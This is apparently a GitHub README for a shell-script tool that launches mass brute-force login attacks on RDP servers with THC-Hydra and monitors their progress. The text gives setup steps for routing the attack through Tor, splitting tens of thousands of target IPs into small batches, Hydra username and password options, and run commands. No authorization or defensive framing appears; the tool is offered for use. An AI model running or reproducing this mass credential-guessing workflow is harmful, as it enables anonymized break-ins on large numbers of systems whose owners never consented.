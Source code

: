 # RDP Mass Attack & Monitor

As you know THC-Hydra is not very happy with massive lists when attacking RDP. It either errors out completely or provides false negatives.
![monitor sh](https://user-images.githubusercontent.com/100805450/156768359-9081427b-199a-40ed-a69e-31495a633878.png)

------------

### Prerequisites:
1. Tor services are required, remove code in `attack.sh` below to not use proxies.
```bash
  HYDRA_PROXY=socks5://l:p@127.0.0.1:9050
  export HYDRA_PROXY
  printenv | grep HYDRA
  sleep 5
```
2. Create folders for IP source lists and used IP source lists:
```bash
mkdir data/ data-tested/
```
3. Have the IP list split into many files with 4-5 IP addresses each.
Example: 50,000 IP List should become 10,000 files with 5 IPs each.
```bash
# make sure you are inside source folder when running this command
split ip-list.txt -l 5
```
4. If you want to use username list instead one username or you want to use one password, edit `attack.sh` accordingly:
```bash
hydra -L usernames.lst -P "$password"
```
```bash
hydra -l admin -p password
```
```bash
hydra -L usernames.lst -P "$password"
```
------------

### Usage:

```bash
chmod +x attack.sh
```
```bash
./attack.sh <ip-list-location> <dictionary-location>
# example:
./attack.sh data wordlist/dict.txt
# ^ will use every file in /home/<your user>/data/ folder as IP list and attack it with /home/<your user>/wordlist/dict.txt wordlist
```
Script moves the used list file to "data-tested" folder and takes the next one from supplied folder. Did this for easier resume on crash or on stop.

------------

### Monitor.sh Usage:
```bash
chmod +x monitor.sh
watch -n 5 --color ./monitor.sh
```
